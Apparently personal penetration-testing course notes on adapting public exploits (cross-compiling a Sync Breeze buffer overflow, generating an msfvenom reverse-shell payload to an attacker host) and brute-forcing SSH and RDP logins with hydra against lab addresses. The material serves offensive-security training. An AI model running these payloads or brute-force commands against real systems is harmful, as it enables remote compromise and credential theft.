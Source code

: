 ```bash
nmap --script-help=clamav-exec.nse
```
**keep in mind: the version of the application exploit author used can be older but it doesn't mean new versions are not vulnerable to that exploit.**

# Fixing Exploits
## Buffer Overflow
Normally **avoid** DoS exploits whenever we have better alternatives
**Bad char**: _ASCII_ or _UNICODE_ characters that **break** the application.
Focus on **_shellcode replacement_.**

In kali linux, a **cross-compiler** can be helpful:
```bash
sudo apt install mingw-w64
```
Use **mingw-w64** to compile the code into a Windows _Portable Executable_ (PE) file.
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```
if there is compile error, search google.
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Change the return address(recreate the target environment locally and use a debugger to determine this address).
Generate our own payload. (bad characters are already listed in the Python exploit)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
....
## Web exploits
http/https?  path/route?  pre-auth?  authentication?  default setting?  self-signed certificates?

In requests.post:
add `verify=False` -> SSL certificate will be ignored

Observe the error that is generated when running the exploit and troubleshoot the code to determine why the error occurs. Use `print` to debug.

Convert python2 to python3 code:
```bash
sudo apt install 2to3
2to3 [file] -w
```
base64 encode data type should: `str` -> `byte`: `.encode('UTF-8')` and `.decode('UTF-8')`


# Password Attacks
## SSH and RDP
`-s` : port number
`-L` username/list
`-P` password/list
`-R` resume attack
ssh (username with password list):
```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
rdp(username list with password):
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```